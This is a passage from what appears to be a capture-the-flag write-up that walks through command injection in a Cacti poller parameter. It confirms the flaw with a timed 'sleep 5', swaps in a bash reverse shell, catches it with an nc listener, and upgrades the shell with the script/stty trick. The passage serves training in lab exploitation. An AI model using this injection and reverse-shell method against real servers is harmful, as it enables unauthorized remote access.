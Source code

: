 ```

000000003:   200        0 L      1 W        54 Ch       "3"
000000001:   200        0 L      1 W        54 Ch       "1"
000000005:   200        0 L      1 W        63 Ch       "5"
000000002:   200        0 L      3 W        78 Ch       "2"
000000006:   200        0 L      1 W        55 Ch       "6"
000000004:   200        0 L      1 W        66 Ch       "4"                                                                       

Total time: 8.803886
Processed Requests: 100
Filtered Requests: 94
Requests/sec.: 11.35861

```

I can take this request over to Repeater and play with it. I can actually submit all six in one request:

![image-20230429175559890](/img/image-20230429175559890.png)

`rrd_name` gives the template, and uptime is (`local_data_id` of 6) is one that is mentioned as vulnerable.

I’ll add the injection to the `poller_id` GET parameter. A `sleep 5` is a safe way to check that it’s working:

![image-20230429175840566](/img/image-20230429175840566.png)

The data is the same, but instead of 255 millis like in the previous, this one is 5,259, about five seconds longer!

I’ll change the parameter from `sleep` to a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), URL-encode it, and send:

![image-20230429180124028](/img/image-20230429180124028.png)

At `nc`, I get a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.211 57164
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ 

```

I’ll upgrade my shell using the [stty / script](https://www.youtube.com/watch?v=DqE6DxqJg8Q) trick:

```

www-data@50bca5e748b0:/var/www/html$ script /dev/null -c bash        
Script started, output log file is '/dev/null'.                      
www-data@50bca5e748b0:/var/www/html$ ^Z                              
[1]+  Stopped                 nc -lnvp 443                           
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443                                                         
            reset                                                    
reset: unknown terminal type unknown                                 
Terminal type? screen                                                
www-data@50bca5e748b0:/var/www/html$

```
